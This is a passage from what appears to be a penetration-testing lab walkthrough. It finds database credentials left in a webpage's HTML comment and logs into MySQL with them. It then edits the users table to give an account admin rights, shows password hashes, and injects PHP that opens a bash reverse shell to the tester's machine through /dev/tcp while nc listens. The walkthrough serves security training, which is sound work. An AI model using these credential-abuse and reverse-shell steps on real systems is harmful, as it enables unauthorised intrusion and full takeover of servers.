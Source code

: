 {% hint style="warning" %}
**Found credentials in webpage's source code**

view-source:[http://172.16.64.92/72ab311dcbfaa40ca0739f5daf505494/panel.php](http://172.16.64.92/72ab311dcbfaa40ca0739f5daf505494/panel.php)

```text
<!-- = '127.0.0.1'; = 'dbuser'; = 'xXxyYyzZz789789)))'; = 'footracking'; = mysqli_connect(, , , );--><br />
```

```text
dbuser
xXxyYyzZz789789)))
footracking
```

Actions:

* Connect to new mysql database
* Elevate privileges for `tracking1` user
{% endhint %}

{% tabs %}
{% tab title="mysql connect" %}
```bash
mysql --host=172.16.64.92 --user=dbuser --password='xXxyYyzZz789789)))' --port=63306
```
{% endtab %}

{% tab title="Update user" %}
```
> use footracking
> update users set adm='yes' where id=3;
> select * from users;
+----+-----------+----------------------------------+-----+
| id | username  | password                         | adm |
+----+-----------+----------------------------------+-----+
|  1 | fcadmin1  | c5d71f305bb017a66c5fa7fd66535b84 | yes |
|  2 | fcadmin2  | 14d69ee186f8d9bbeddd4da31559ce0f | yes |
|  3 | tracking1 | 827ccb0eea8a706c4c34a16891f84e7b | yes |
|  4 | tracking2 | e10adc3949ba59abbe56e057f20f883e | no  |
+----+-----------+----------------------------------+-----+
4 rows in set (0.142 sec)
```
{% endtab %}
{% endtabs %}

{% hint style="warning" %}
We now get into a Admin Console panel where we can inject PHP sentences

* We initiate `nc -lvpn 1234` locally
* We open a reverse shell against our machine while we listen locally on port 1234

```text
exec("/bin/bash -c 'bash -i >& /dev/tcp/172.16.64.10/1234 0>&1'");
```
{% endhint %}
